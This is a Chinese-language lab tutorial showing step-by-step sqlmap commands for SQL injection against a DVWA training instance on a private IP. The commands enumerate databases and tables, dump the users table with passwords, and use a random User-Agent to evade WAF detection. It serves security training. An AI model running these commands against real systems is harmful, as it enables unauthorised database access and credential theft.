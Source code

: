 ## 设置dvwa安全级别为**low**
## 获取有效的Cookie
登录后，使用浏览器开发者工具(F12)查看当前Cookie
![image.png](https://pic.myla.eu.org/file/1746589718115_image.png)
或者使用Burp Suite拦截一个请求，获取Cookie值

您需要的Cookie应该包含PHPSESSID和security值
## 使用SQLMap进行测试

---

## **1. 基本注入测试**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --batch
```

### **参数说明：**
- **`-u` 或 `--url`**：指定目标URL，包含可注入参数（`id=1`）。  
- **`--cookie`**：提供当前会话的Cookie（`PHPSESSID`用于保持登录，`security=low`设置DVWA安全级别）。  
- **`--batch`**：自动选择默认选项，无需交互式确认（适合自动化测试）。  

---

## **2. 获取数据库信息**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --dbs \
       --batch
```

### **参数说明：**
- **`--dbs`**：枚举目标数据库服务器上的所有数据库名称（如`information_schema`、`dvwa`等）。  
- 其余参数同上（`-u`、`--cookie`、`--batch`）。  

---

## **3. 获取当前数据库名称**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --current-db \
       --batch
```

### **参数说明：**
- **`--current-db`**：获取当前正在使用的数据库名称（DVWA默认是`dvwa`）。  

---

## **4. 获取数据库表**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       -D dvwa \
       --tables \
       --batch
```

### **参数说明：**
- **`-D dvwa`**：指定要操作的数据库（`dvwa`）。  
- **`--tables`**：枚举该数据库中的所有表（如`users`、`guestbook`）。  

---

## **5. 获取表结构（列名）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       -D dvwa \
       -T users \
       --columns \
       --batch
```

### **参数说明：**
- **`-T users`**：指定要操作的表（`users`）。  
- **`--columns`**：列出该表的所有列（如`user_id`, `first_name`, `password`）。  

---

## **6. 提取数据（Dump表内容）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       -D dvwa \
       -T users \
       --dump \
       --batch
```

### **参数说明：**
- **`--dump`**：提取并显示表中的所有数据（如用户名、密码等）。  

---

## **7. 使用POST请求测试（可选）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/" \
       --data="id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --batch
```

### **参数说明：**
- **`--data="id=1&Submit=Submit"`**：指定POST请求的数据（如果注入点使用POST提交）。  

---

## **8. 使用随机User-Agent（绕过简单WAF）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --random-agent \
       --batch
```

### **参数说明：**
- **`--random-agent`**：使用随机的HTTP User-Agent头，避免被WAF检测。  

---

## **9. 使用代理（Burp Suite抓包）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --proxy="http://127.0.0.1:8080" \
       --batch
```

### **参数说明：**
- **`--proxy="http://127.0.0.1:8080"`**：通过Burp Suite等代理发送请求，方便分析流量。  

---

## **10. 提高检测级别（更全面测试）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --level=3 \
       --risk=3 \
       --batch
```

### **参数说明：**
- **`--level=3`**（1-5）：提高检测深度（测试更多参数，如HTTP头）。  
- **`--risk=3`**（1-3）：提高风险等级（使用更激进的注入技术）。  

---

## **总结**
| 参数 | 作用 |
|------|------|
| `-u` | 指定目标URL |
| `--cookie` | 提供会话Cookie |
| `--batch` | 自动模式（无需交互） |
| `--dbs` | 枚举所有数据库 |
| `--current-db` | 获取当前数据库名 |
| `-D` | 指定数据库 |
| `--tables` | 枚举表 |
| `-T` | 指定表 |
| `--columns` | 获取列名 |
| `--dump` | 提取数据 |
| `--data` | POST请求数据 |
| `--random-agent` | 随机User-Agent |
| `--proxy` | 设置代理 |
| `--level` | 检测深度（1-5） |
| `--risk` | 风险等级（1-3） |
